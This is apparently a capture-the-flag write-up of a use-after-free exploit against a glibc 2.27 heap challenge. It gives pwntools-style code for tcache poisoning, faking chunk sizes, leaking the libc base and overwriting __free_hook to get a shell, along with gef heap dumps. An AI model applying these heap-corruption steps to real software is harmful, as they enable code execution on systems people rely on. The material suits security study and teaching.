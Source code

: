# information
Runing on Ubuntu 18.04, with libc-2.27.so.
Four kinds of operations exists: `new`, `edit`, `delete`, `show`. Fortunately, we got a leak method here.
```
1. new
2. edit
3. delete
4. show
Your choice:
```
There are some contrains:
1. You can only use two chunks.
2. Chunk size is fixed to 0x48.
3. You can choose weather to clear the global array or not.
# bug
Typically UAF
# exploit
How to leverage this UAF to exploit is really important.
The thing is that we cant make a chunk larger than 0x400 to leak the libc. Can we?
`x2.py` explained why we cant make a chunk larger than 0x400, the main reason is that we only have two chunks to use. If we want to edit anything on the heap, we should have at least 3 chunks.

So we must find another way to exploit it.
use the chunk arrange system unalignment to make a 0x60 size chunk
```python
# allocate chunk at heap + 0x68, make it aligned
 new(p64(0) * 7 + p64(0x61) + p64(heap_addr + 0x68)) # make a fake chunk
 new('1' * 8)
 for i in range(7):
     delete(0)
 delete(1, 1)
 delete(0, 1)
 new('c')
 new('d')
 
 # create fake chunk and leak libc
 delete(1, 1)
 gdb.attach(io, '')

```
Bins will look like this. See, you get a 0x60 tcache bin.
Also, you will find that the FD of 0x40 tcache bin points to `heap_addr + 0x68`. This is what we set before.
```
Tcachebins[idx=3, size=0x40] count=5  ←  Chunk(addr=0x555555757068, size=0x0, flags=)  ←  Chunk(addr=0x555555757068, size=0x0, flags=)  →  [loop detected]
Tcachebins[idx=4, size=0x50] count=1  ←  Chunk(addr=0x5555557572a0, size=0x60, flags=PREV_INUSE) 
────────────────────── Fastbins for arena 0x155555326c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40]  ←  Chunk(addr=0x555555757260, size=0x50, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757273, size=0x0, flags=) [incorrect fastbin_index] 
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
```
Then overwrite the tcache_entries(0x40) to 0. Now if you type `heap bins` in the gef, you will find that there will be no more tcache bins here, the freed chunk will be an orphan. This skills will be used severals times later.
``
──────────────────────────────── Tcachebins for arena 0x155555326c40 ────────────────────────────────
Tcachebins[idx=4, size=0x50] count=1  ←  Chunk(addr=0x5555557572a0, size=0x60, flags=PREV_INUSE) 
───────────────────────────────── Fastbins for arena 0x155555326c40 ─────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40]  ←  Chunk(addr=0x555555757260, size=0x50, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757273, size=0x0, flags=) [incorrect fastbin_index] 
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
```
After this, we can always overwrite the `tcache_entries` with `edit(1, xxxxx)`. 
Then we clean up the fastbin list and malloc a new 0x50 size chunk from the top.
```python
 delete(1, 1) # add into the 0x60 tache list
 new(p64(0)) # 1 fix the FD, and it will be at the fake addr, overwrite the tcache_entries to 0
 edit(0, p64(0) * 3 + p64(0xa1)) # fake size
 delete(0, 1) # add into the 0x40 tcache list
 edit(1, p64(0)) # then overwrite the tcache_entries to 0 again
 new('a') # get from 0x40 fastbin list
 delete(0, 1) # delete it, and will be added into 0x40 tcache list
 edit(1, p64(0)) # overwrite tcache_entries to 0 again
 new(p64(0x21) * 9) # get from top_chunk
 delete(0, 1) # just remove it
```
Then we just edit the entry to our 0xa0 fake chunk, and free it more than 7 times to get the libc address. Modify the entry again to leak.
```
 edit(1, p64(heap_addr + 0x280)) # overwrite tcache_entries to 0xa0 fake chunk
 new('bbbbbbbb') # allocated a 0xa0 chunk
 for i in range(7):
     delete(0)
 delete(0, 1) # now we get the libc address
 edit(1, p64(heap_addr + 0x260))
 new('a' * 0x20)
 show(0)
 io.recvuntil("a" * 0x20)
 libc_addr = myu64(io.recvn(6)) - 0x3ebca0
 libc.address = libc_addr
 log.info("\033[33m" + hex(libc_addr) + "\033[0m")

```
Then we can just edit the `__free_hook` and enjoy the shell.

# thinkings
Control the tcache_entries means that you can control everything.






